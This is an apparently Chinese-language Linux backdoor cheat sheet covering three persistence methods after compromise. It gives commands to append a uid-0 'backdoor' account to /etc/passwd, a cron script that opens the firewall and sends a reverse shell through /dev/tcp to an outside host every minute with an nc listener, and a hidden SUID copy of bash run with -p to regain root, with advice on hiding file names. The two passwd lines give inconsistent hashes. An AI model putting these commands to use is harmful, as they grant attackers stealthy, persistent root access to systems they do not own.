 
# linux
## 后门

**添加 root 权限后门用户**

我们的目标就是在这个文件中追加一条，一个带有密文且 id 为 0 的账号。

密码加密使用下面的命令 `perl -e 'print crypt("password", "AA"). "\n"'`

所以我们最终想要在 passwd 文件中的条目是这个样子 `backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`

执行写入 `echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond 开机自启后门**

先创建 /etc/xxxx 脚本文件(名字自己改)，利用该脚本进行反弹。以下脚本代表全自动反弹到 8.8.8.8 的 53 端口。
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```

然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可。

`nc -vv -lp 53`

**SUID shell**

首先, 先切换成为 root 用户，并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你，肯定能想出很多好的名字的。
文件前面的那一点也不是必要的，只是为了隐藏文件( 在文件名的最前面加上“.”，就可以在任意文件目录下进行隐藏) .
```bash
# 现在，做为一个普通用户，我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
# 为什么不行呢? 因为 bash2 针对 suid有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
# 使用-p参数来获取一个root shell. 这个euid的意思是 effective user id
# 这里要特别注意的是，作为一个普通用户执行这个SUID shell时，一定要使用全路径。
```